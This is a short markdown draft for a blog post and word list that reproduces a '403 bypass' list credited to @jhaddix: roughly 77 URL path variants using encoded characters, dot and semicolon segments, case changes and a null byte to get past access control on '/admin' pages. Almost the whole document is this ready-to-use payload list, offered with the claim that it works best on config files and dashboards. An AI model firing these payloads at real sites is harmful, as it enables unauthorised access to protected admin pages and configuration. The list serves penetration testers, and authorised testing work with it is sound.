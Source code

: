 We're going to create a markdown based blog and word list with this as a start:

# 403 Bypass list by @jhaddix

## Url Manipulation Methods

Below are the top 77 ways to bypass access control on incorrectely protected pages. These work best on config files and global dashboards. 

```
url.com/admin/?
url.com//admin//
url.com///admin///
url.com/./admin/./
url.com/admin?
url.com/admin??
url.com/admin??
url.com/admin/?/
url.com/admin/??
url.com/admin/??/
url.com/admin/..
url.com/admin/../
url.com/admin/./
url.com/admin/.
url.com/admin/.//
url.com/admin/*
url.com/admin//*
url.com/admin/%2f
url.com/admin/%2f/
url.com/admin/%20
url.com/admin/%20/
url.com/admin/%09
url.com/admin/%09/
url.com/admin/%0a
url.com/admin/%0a/
url.com/admin/%0d
url.com/admin/%0d/
url.com/admin/%25
url.com/admin/%25/
url.com/admin/%23
url.com/admin/%23/
url.com/admin/%26
url.com/admin/%3f
url.com/admin/%3f/
url.com/admin/%26/
url.com/admin/#
url.com/admin/#/
url.com/admin/#/./
url.com/./admin
url.com/./admin/
url.com/..;/admin
url.com/..;/admin/
url.com/.;/admin
url.com/.;/admin/
url.com/;/admin
url.com/;/admin/
url.com//;//admin
url.com//;//admin/
url.com/admin/./
url.com/%2e/admin
url.com/%2e/admin/
url.com/%20/admin/%20
url.com/%20/admin/%20/
url.com/admin/..;/
url.com/admin.json
url.com/admin/.json
url.com/admin..;/
url.com/admin;/
url.com/admin%00
url.com/admin.css
url.com/admin.html
url.com/admin?id=1
url.com/admin~
url.com/admin/~
url.com/admin/°/
url.com/admin/&
url.com/admin/-
url.com/admin\/\/
url.com/admin/..%3B/
url.com/admin/;%2f..%2f..%2f
url.com/ADMIN
url.com/ADMIN/
url.com/admin/..\;/
url.com/*/admin
url.com/*/admin/
url.com/ADM+IN
url.com/ADM+IN/
```


(update with wikinotes...)
